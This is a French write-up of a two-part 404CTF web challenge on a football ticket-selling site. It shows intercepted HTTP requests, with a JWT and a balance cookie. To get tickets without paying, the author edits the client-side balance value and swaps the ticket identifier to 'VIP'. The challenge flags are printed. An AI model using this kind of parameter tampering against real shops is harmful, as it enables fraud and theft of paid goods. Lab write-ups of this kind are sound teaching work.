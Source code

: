# Le match du siècle [1/2]
## Enoncé
> Vous voilà à quelques semaines du match tant attendu entre le Gorfou FC et l'AS Sealion.
> Seulement, vous vous êtes pris au dernier moment pour acheter votre place. Trouvez un moyen d'obtenir un billet !

Auteur: **@callister**
 
Connexion: `https://le-match-du-siecle.challenges.404ctf.fr`

## Analyse

Il s'agit d'un site de vente de billets dans lequel on peut s'inscrire.

Une fois inscrit on observe qu'un solde est associé à notre compte, de plus sont disponibles à la vente 5 Tribunes, dont la VIP dont les ventes sont épuisées.

<p align="center">
    <img src="../../images/404CTFWeb2.png" alt="img1" style="width:40%;">
</p>

On peut intercepter la requête partante lors de la tentative d'achat d'un billet:
```http
POST /api/verification HTTP/2
Host: le-match-du-siecle.challenges.404ctf.fr
Cookie: token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlpvcnAxX19fXyIsImJpbGxldHMiOnsiVklQIjowLCJMYXRlcmFsZSI6MCwiRmFtaWxpYWxlIjowLCJFc3QiOjAsIk91ZXN0IjowLCJOb3JkIGV0IFN1ZCI6MH0sImlhdCI6MTcxNDU1NTMyMn0.C5NoOlKy_nyvZ1ivzZdCOIuip8NDAN_qvqqKVY2MK79_IndlMFHQSGS2kVHjJg-8O1jZcvpf4PGW698ipXDY27yfvvNADdb1srf8w2ib2MTRT-OgfRte6zPQo5qj8_VxmnSjC6Y6tGF1jbvWcPJ8uIY462w7dEr_BrYZHssd9-qbWqHI1XF713aVIWI_5OGcu-1RyRxOdgbVmq_cW73G_kyS4f9c-3uzca69ZWrZB8LpEgiIkShB-ADk8a7qbmT0c14ybVV7B6wvlsmqXJNHMp2wqRtD7uL-YLcHFjzNFUHiUDYXPvHNqWVqJQ9zrWWe9kDvTT6zNzQaK3w-_zh_ZQ; balance=0
..
Priority: u=1, i

{"token":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlpvcnAxX19fXyIsImJpbGxldHMiOnsiVklQIjowLCJMYXRlcmFsZSI6MCwiRmFtaWxpYWxlIjowLCJFc3QiOjAsIk91ZXN0IjowLCJOb3JkIGV0IFN1ZCI6MH0sImlhdCI6MTcxNDU1NTMyMn0.C5NoOlKy_nyvZ1ivzZdCOIuip8NDAN_qvqqKVY2MK79_IndlMFHQSGS2kVHjJg-8O1jZcvpf4PGW698ipXDY27yfvvNADdb1srf8w2ib2MTRT-OgfRte6zPQo5qj8_VxmnSjC6Y6tGF1jbvWcPJ8uIY462w7dEr_BrYZHssd9-qbWqHI1XF713aVIWI_5OGcu-1RyRxOdgbVmq_cW73G_kyS4f9c-3uzca69ZWrZB8LpEgiIkShB-ADk8a7qbmT0c14ybVV7B6wvlsmqXJNHMp2wqRtD7uL-YLcHFjzNFUHiUDYXPvHNqWVqJQ9zrWWe9kDvTT6zNzQaK3w-_zh_ZQ"}
```
On remarque un JWT dans le cookie `token` qui est aussi présent dans les données de la requête POST, et également un paramètre `balance` à 0.

Balance nous fait fortement penser à notre solde et avant toute chose on peut tenter de modifier sa valeur à l'interception de la requête, et BINGO, notre requête est acceptée.

Si l'on retourne sur le site on peut voir que l'on a un ticket en plus dans notre inventaire mais également la différence du prix du billet et de la somme qu'on a rentrée en paramètre.

En ouvrant le billet on remarque une image contenant le flag que nous recherchions (on peut utiliser https://www.onlineocr.net/ pour utilisier de l'OCR sur ce flag, et ne pas perdre une éternité à le recopier avec des fautes;) ).

Flag: **404CTF{b5a77ed0fa6968b21df7fb137437fae1} **

# Le match du siècle [2/2]
## Enoncé
> Vous avez déjà en votre possession un billet, néanmoins, pour impressionner votre famille, vous souhaiteriez des places VIP.

Auteur: **@callister**
 
Connexion: `https://le-match-du-siecle.challenges.404ctf.fr`

## Analyse

Pour celà on peut observer le JWT qui a changé, et on y observe les informations suivantes:
**Header**
```
{
  "alg": "HS256",
  "typ": "JWT"
}
```
**Payload**
```
{
  "username": "Zorp1____",
  "billets": {
    "VIP": 0,
    "Laterale": 1,
    "Familiale": 0,
    "Est": 0,
    "Ouest": 0,
    "Nord et Sud": 0
  },
  "iat": 1714555617
}
```
On comprend vite que si on voulait directement une place VIP sans la payer, on pourrait potentiellement modifier la valeur de ce JWT, et attribuer à 1 notre solde de tickets VIP. 
Seulement, on ne sait pas quel secret a été utilisé pour signer ce token et en fournissant une mauvaise signature on obtient un message d'erreur **ACCESS INTERDIT AUX HACKERS**. 
Des attaques classiques comme le None algorithm ou un brute force sur la clé (en utilisant le dictionnaire rockyou) n'ont pas marché alors j'ai continué à observer.

Lorsque l'on ouvre le billet de la tribune qu'on a acheté précedemment, on observe ceci:
```http
POST /api/riche HTTP/2
Host: le-match-du-siecle.challenges.404ctf.fr
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlpvcnAxX19fXyIsImJpbGxldHMiOnsiVklQIjowLCJMYXRlcmFsZSI6MSwiRmFtaWxpYWxlIjowLCJFc3QiOjAsIk91ZXN0IjowLCJOb3JkIGV0IFN1ZCI6MH0sImlhdCI6MTcxNDU1NTYxN30.DVHnxb3mPW4rYu48tSBpGdF-O-btNu_GXAs0uBN9Db0; balance=10
.
Priority: u=1, i

{"token":"Laterale"}
```
Il semblerait que l'identifier de notre billet soit écrit en clair dans la requête POST envoyée à l'API.

## Exploitation

En reproduisant cette requête mais en changeant les données par `{"token":"VIP"}`, une image nous est renvoyée et elle contient un flag différent.

Flag: **404CTF{b7554ee60d0020216749d428830a5511}**